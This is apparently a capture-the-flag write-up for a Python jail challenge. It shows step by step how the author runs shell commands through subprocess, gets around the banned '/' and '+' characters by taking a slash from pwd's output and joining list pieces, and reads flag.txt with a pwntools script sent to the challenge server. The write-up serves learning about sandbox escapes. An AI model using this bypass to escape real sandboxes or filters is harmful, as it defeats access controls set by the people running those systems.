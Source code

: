 # TheOnlyJail

**171 points**

`143.198.219.171:3333`

___

This was my first pyjail challenge ever and so I feel pretty good that I managed to solve it even though it was one of the easier challenges (but still harder that `Crypto1` dammit).

The first thing I tried was calling `ls` with subprocess like so:

```python
import subprocess
subprocess.run("ls", shell=True)
```

It gave the standard directories present in root.

I wanted to look into `home` and so I did the same thing but with home:

```python
subprocess.run("ls home", shell=True)
```

And it gave me `ctf`.

I tried to ls further into the directory but it did not work:

```python
subprocess.run("ls home/ctf", shell=True)
```

The `/` was a banned character.

Ok, I tried basically every banned character like trying to seperate the command into `cd home; ls ctf` or the same with `&&`.

I then discovered that I could get the `/` character by running `pwd` and getting that into a variable with:

```python
slash = subprocess.run("pwd", shell=True, stdout=subprocess.PIPE)
slash = slash.stdout.decode().strip()
```

Now I can construct a command with this `slash` but more problems arose.

I tried the following:

```python
cmd = "ls " + slash + "home" + slash + "ctf"
subprocess.run(cmd, shell=True)
```

But the `+` is also banned!

Sooooo more python shenanigans, I used a list and appended the strings one by one and joined them into a command:

```python
l = list()')
l.append("ls ")
l.append("home")
l.append(slash)
l.append("ctf")
cmd = "".join(l)
subprocess.run(cmd, shell=True)
```

And it worked!!
I got the contents of `/home/ctf` which was the file `flag.txt`.

The final thing for me to do was to cat it out and kaching, win.

The final code I decided to do with `pwntools` just for fun (worked just as well in the commandline)

```python
from pwn import *

# Establish the target process
io = remote('143.198.219.171', 3333)

io.sendline(b'import subprocess')
io.sendline(b'import os')
io.sendline(b'slash = subprocess.run("pwd", shell=True, stdout=subprocess.PIPE)')
io.sendline(b'slash = slash.stdout.decode().strip()')
io.sendline(b'l = list()')
io.sendline(b'l.append("cat ")')
io.sendline(b'l.append("home")')
io.sendline(b'l.append(slash)')
io.sendline(b'l.append("ctf")')
io.sendline(b'l.append(slash)')
io.sendline(b'l.append("flag.txt")')

io.sendline(b'cmd = "".join(l)')
io.sendline(b'print()')
io.sendline(b'print(cmd)')

io.sendline(b'subprocess.run(cmd, shell=True)')

io.interactive()
```

The output was:

```
Welcome to the IIITL Jail! Escape if you can
jail> jail> jail> jail> jail> jail> jail> jail> jail> jail> jail> jail> jail> 
jail> cat home/ctf/flag.txt
jail> ictf{ff8ab219-a90b-44f8-9273-ccc13766f2eb}jail>
```

So the flag is:

> ictf{ff8ab219-a90b-44f8-9273-ccc13766f2eb}